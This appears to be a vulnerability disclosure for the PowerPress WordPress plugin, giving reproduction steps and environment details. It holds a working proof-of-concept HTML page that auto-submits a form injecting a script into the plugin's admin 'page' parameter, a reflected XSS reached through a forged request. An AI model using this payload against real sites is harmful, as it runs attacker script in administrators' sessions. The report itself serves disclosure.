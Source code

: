 # Steps to Reproduce
After installing the plugin you can visit this html to trigger the XSS:
```html
<form action="http://localhost/wp-admin/admin.php?page=powerpress%2Fpowerpressadmin_customfeeds.php" target="_blank" method="post">
    <input type="hidden" name="page" value='"><script>alert(1)</script>'>
</form>

<script>
    document.querySelector("form").submit()
</script>
```
# Additional Information
## Environment
Wordpress: 6.5.2
PHP: php:8.1-fpm
This POC use nginx configuration from https://github.com/dimasma0305/dockerized-wordpress-debug-setup

> Note: You can see my video below for demonstration.
